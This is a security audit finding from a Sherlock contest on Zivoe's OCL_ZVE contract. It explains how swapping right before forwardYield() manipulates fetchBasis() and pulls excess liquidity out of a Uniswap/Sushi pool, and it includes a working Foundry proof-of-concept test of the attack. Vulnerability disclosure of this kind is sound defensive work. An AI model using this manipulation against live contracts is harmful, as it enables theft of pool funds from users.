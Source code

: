 Clumsy Cobalt Lion

high

# `OCL_ZVE` basis can be manipulated leading to loss of funds

## Summary
[OCL.fetchBasis()](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L336-L342) can be manipulated to return a wrong value by executing a swap right before it's called.

## Vulnerability Detail
The `fetchBasis()` function returns the amount of `pairAssets` that's redeemable for 1 unit of LP tokens. It does so by multiplying the pool's pairAsset balance by the ratio `lpOwned/totalLp`. The contract uses it to retrieve the amount of earned fees in `pairAsset`.

```solidity
        uint256 pairAssetBalance = IERC20(pairAsset).balanceOf(pool);
        amount = lp * pairAssetBalance / poolTotalSupply;
```
The problem is that `IERC20(pairAsset).balanceOf(pool)` can easily be manipulated by executing a swap before `fetchBasis()` is called. If the attacker wants to decrease the basis, they would swap `ZVE for pairAsset`, and if they want to increase the basis, they would swap `pairAsset for ZVE`. This wrong accounting can lead to severe consequences. 

An attacker can frontrun [`forwardYield()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L287-L305) by providing a large amount of `pairAsset`. This will make the following if statement execute: 
```solidity
        (uint256 amount, uint256 lp) = fetchBasis();
        if (amount > basis) { _forwardYield(amount, lp); }
```
[`_forwardYield`](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L313) calculates the amount of LP tokens to be burned, which is equal to the difference between the manipulated amount and the stored basis (ignoring the `compoundingRateBIPS` for simplicity). Therefore, the attacker has control over how many of the assets in the UNI/SUSHI pool will be withdrawn and sent to the `YDL` for distributing. This can result in massive losses for the `OCL_ZVE`.

```solidity
        uint256 lpBurnable = (amount - basis) * lp / amount * (BIPS - compoundingRateBIPS) / BIPS;
        ...
        (uint256 claimedPairAsset, uint256 claimedZVE) = IRouter_OCL_ZVE(router).removeLiquidity(
            pairAsset, ZVE, lpBurnable, 0, 0, address(this), block.timestamp + 14 days
        );
```

There also exist the other case - where an attacker makes `fetchBasis` return a small number to stop yield distribution, but I think the other case is more severe.
## Impact
Stealing funds from the UNI/SUSHI pool if basis is increased. If the basis is decreased, other problems will emerge, one of which is the ability to stop yield distribution.

## Code Snippet
POC to add to [Test_OCL_ZVE.sol](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol)

First add this interface 
```solidity
interface IRouter {
        function swapExactTokensForTokens(uint,uint,address[] memory,address,uint) external returns (uint[] memory);
}
```
Then, put this function in the test file.

```solidity
    function test_steal_by_forwarding() public {
        address[] memory assets = new address[](2);
        uint256[] memory amounts = new uint256[](2);

        assets[0] = DAI;
        assets[1] = address(ZVE);

        // Initiate the pool 1:1
        amounts[0] = 2000 ether;
        amounts[1] = 2000 ether;


        IFactory_OCL_ZVE factory = IFactory_OCL_ZVE(OCL_ZVE_UNIV2_DAI.factory());
        address router = OCL_ZVE_UNIV2_DAI.router();
       
        assert(
                god.try_pushMulti(
                    address(DAO),
                    address(OCL_ZVE_UNIV2_DAI),
                    assets,
                    amounts,
                    new bytes[](2)
                )
        );

        address pair = factory.getPair(DAI, address(ZVE));

        // Yield of 10e18
        deal(DAI, address(pair), 2010e18);
        deal(address(ZVE), address(this), 2010e18);
     

        deal(DAI, address(0xb0b), 2000e18);
        
      
        assertEq(IERC20(DAI).balanceOf(address(GBL.YDL())), 0);
        // The compounding is set to 50%, so only 5e18 DAI should be withdrawn forwarded as yield
        assertEq(OCL_ZVE_UNIV2_DAI.compoundingRateBIPS(), 5000);

     
        // Add 2000e18 DAI to the pool by swapping for ZVE
        vm.startPrank(address(0xb0b));
        IERC20(DAI).approve(router, 2000e18);
        IRouter(router).swapExactTokensForTokens(2000e18, 0, assets, address(0xb0b), block.timestamp + 1);

        // Skip time until the next distribution
        hevm.warp(OCL_ZVE_UNIV2_DAI.nextYieldDistribution() + 1);

        OCL_ZVE_UNIV2_DAI.forwardYield();

        assets[0] = address(ZVE);
        assets[1] = DAI;

        ZVE.approve(router, ZVE.balanceOf(address(0xb0b)));
        IRouter(router).swapExactTokensForTokens(ZVE.balanceOf(address(0xb0b)), 0, assets, address(0xb0b), block.timestamp + 1);

        assertGt(IERC20(DAI).balanceOf(address(GBL.YDL())), 1000 ether);
    }
```

## Tool used

Foundry

## Recommendation
The whole fee tracking mechanism has to be redesigned.
